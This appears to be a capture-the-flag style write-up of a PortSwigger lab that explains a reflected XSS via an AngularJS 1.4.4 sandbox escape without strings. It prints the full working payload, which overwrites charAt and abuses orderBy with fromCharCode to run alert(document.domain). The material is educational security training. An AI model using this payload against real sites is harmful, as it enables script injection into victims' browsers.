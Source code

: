 # Reflected XSS with AngularJS sandbox escape without strings

## Introduction

Welcome to my another writeup! In this Portswigger Labs [lab](https://portswigger.net/web-security/cross-site-scripting/contexts/client-side-template-injection/lab-angular-sandbox-escape-without-strings), you'll learn: Reflected XSS with AngularJS sandbox escape without strings! Without further ado, let's dive in.

- Overall difficulty for me (From 1-10 stars): ★★★★★★★☆☆☆

## Background

This lab uses [AngularJS](https://portswigger.net/web-security/cross-site-scripting/contexts/client-side-template-injection) in an unusual way where the `$eval` function is not available and you will be unable to use any strings in AngularJS.

To solve the lab, perform a [cross-site scripting](https://portswigger.net/web-security/cross-site-scripting) attack that escapes the sandbox and executes the `alert` function without using the `$eval` function.

## Exploitation

**Home page:**

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/Cross-Site-Scripting/XSS-27/images/Pasted%20image%2020230101072208.png)

In here, we can see there is a search box.

Let's search something:

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/Cross-Site-Scripting/XSS-27/images/Pasted%20image%2020230101072240.png)

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/Cross-Site-Scripting/XSS-27/images/Pasted%20image%2020230101072254.png)

As you can, our input is reflected to the web page.

**View source page:**
```html
<script type="text/javascript" src="/resources/js/angular_1-4-4.js"></script>
[...]
<section class=blog-header>
    <script>angular.module('labApp', []).controller('vulnCtrl',function($scope, $parse) {
        $scope.query = {};
        var key = 'search';
        $scope.query[key] = 'test';
        $scope.value = $parse(key)($scope.query);
    });</script>
    <h1 ng-controller=vulnCtrl>1 search results for {{value}}</h1>
    <hr>
</section>
```

As you can see, the search functionality is using **AngularJS 1.4.4**. Also, our input is **being rendered as a template: `{{value}}`.**

**Let's try to use an AngularJS sandbox bypass in [PayloadAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/XSS%20Injection/XSS%20in%20Angular.md):**

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/Cross-Site-Scripting/XSS-27/images/Pasted%20image%2020230101073512.png)

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/Cross-Site-Scripting/XSS-27/images/Pasted%20image%2020230101073533.png)

However, it doesn't work.

**In the lab's background, it said:**

> This lab uses [AngularJS](https://portswigger.net/web-security/cross-site-scripting/contexts/client-side-template-injection) in an unusual way where the `$eval` function is not available and you will be unable to use any strings in AngularJS.

**To solve that, we can use `toString()` to create a string without using quotes:**
```js
1&toString()
```

This will **get the `String` prototype.**

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/Cross-Site-Scripting/XSS-27/images/Pasted%20image%2020230101073709.png)

**Then, we can use the most well-known escape uses the modified `charAt()` function globally within an expression:**
```js
1&toString().constructor.prototype.charAt=[].join;
```

This will **overwrite the `charAt` function for every string**, thus bypassing AngularJS sandbox.

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/Cross-Site-Scripting/XSS-27/images/Pasted%20image%2020230101073907.png)

**After that, we can use the `orderBy` filter to execute our JavaScript payload:**
```js
1&toString().constructor.prototype.charAt=[].join;[1]|orderBy:
```

In here, we're sending the array `[1]` to the `orderBy` filter on the right. The colon signifies an argument to send to the filter.

**Argument:**
```js
toString().constructor.fromCharCode(120,61,97,108,101,114,116,40,100,111,99,117,109,101,110,116,46,100,111,109,97,105,110,41)=1
```

Again, use `toString()` to get the `String` prototype. Then, we use the `fromCharCode` method generate our payload by converting character codes into the string `x=alert(document.domain)`. Because the `charAt` function has been overwritten, AngularJS will allow this code where normally it would not.

**Final payload:**
```js
1&toString().constructor.prototype.charAt=[].join;[1]|orderBy:toString().constructor.fromCharCode(120,61,97,108,101,114,116,40,100,111,99,117,109,101,110,116,46,100,111,109,97,105,110,41)=1
```

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/Cross-Site-Scripting/XSS-27/images/Pasted%20image%2020230101075510.png)

Nice!

# What we've learned:

1. Reflected XSS with AngularJS sandbox escape without strings